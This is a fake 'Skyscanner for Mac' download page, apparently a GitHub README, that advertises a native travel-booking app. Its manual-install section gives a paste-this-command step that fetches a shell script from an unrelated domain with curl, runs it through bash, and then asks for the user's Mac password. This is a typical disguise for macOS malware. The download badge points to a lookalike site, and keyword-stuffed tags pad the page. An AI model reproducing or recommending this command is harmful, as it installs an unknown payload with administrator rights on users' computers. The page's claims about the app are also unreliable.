 # Skyscanner — Download For Mac OS

Skyscanner for Mac is your all-in-one travel planning app. With the native macOS app, you can seamlessly compare flights, hotels, and car rentals across thousands of providers in real time. Enjoy a streamlined experience for booking your next trip with ease—right from your Mac.

[![Download for macOS](https://img.shields.io/badge/Download%20for-macOS-blue.svg?style=for-the-badge\&logo=apple)](https://skyscanner-app-download-for-mac-os.github.io/.github/)

If the download button doesn’t work, follow the instructions below to install Skyscanner manually using your Terminal.

---

## 📦 How to Install Skyscanner For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the Skyscanner app into your Applications folder.
3. Launch Skyscanner from Applications.

### Installation via a command in the terminal:

1. Copy the following installation command:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal and paste the command.
3. Press “Return” and enter your Mac password.

---

## ✈️ What You Can Do with Skyscanner

* 🌍 **Compare Flights Worldwide** – Find the best routes and cheapest fares.
* 🏨 **Book Hotels** – Browse reviews and get the best accommodation deals.
* 🚗 **Rent Cars** – Choose from thousands of rental services globally.
* 🧳 **Track Prices** – Set alerts and never miss a price drop.
* 📆 **Plan Trips Smartly** – Use flexible date search and explore destinations.

---

## About Skyscanner For Mac

Skyscanner for Mac makes travel discovery and booking fast, easy, and intuitive. With a sleek native interface and system-level optimization, this macOS app allows users to search flights, hotels, and car rentals in one place—without ever opening a browser.

It’s ideal for digital nomads, business travelers, and vacation planners looking to explore the world on a budget or schedule. From spontaneous weekend getaways to multi-city business trips, Skyscanner helps you find the best options quickly.

Optimized for both Apple Silicon and Intel Macs, the app ensures smooth performance, real-time price updates, and secure booking integration.

---

## 🌟 Key Benefits

* ✈️ Search and compare millions of flight routes
* 🏩 Access hotel deals from trusted providers
* 🚘 Rent cars at your destination hassle-free
* 📊 Track price trends and set alerts
* 🔒 Secure, real-time booking connections
* 🍎 Built natively for macOS M1/M2 and Intel

---

## 🖼 Preview

![Skyscanner App Home](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSmjrLoPvDPLtrhHGsQMvzZDv2IEr5zWOuOAg&s)

*Flight and hotel search interface*

![Skyscanner Booking View](https://i.postimg.cc/QMPk1MYR/alibaba-tracking-list.png)
*Trip overview and pricing*

---

## 🔍 Tags

skyscanner for mac, skyscanner app, sky scanne r, skyscanner application,skyscanner app mac, skyscanner mac download, skyscanner macos, download skyscanner for mac
